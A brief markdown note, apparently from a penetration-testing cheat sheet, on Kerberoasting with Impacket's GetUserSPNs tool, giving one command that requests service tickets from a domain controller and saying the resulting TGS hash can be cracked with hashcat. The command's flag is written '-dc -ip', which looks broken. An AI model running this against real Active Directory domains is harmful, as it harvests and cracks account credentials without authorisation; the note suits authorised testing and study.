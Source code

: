 ### Tooling
1. GetUserSPNs: Comes with Impacket


### Usage
```sh
GetUserSPNs.py <domain_name>/<username>:<password> -dc -ip <ip_address_of_domain_controller> -request
```

This command should give you a Ticket Granting Service (TGS) hash which can be stored and cracked with hashcat.

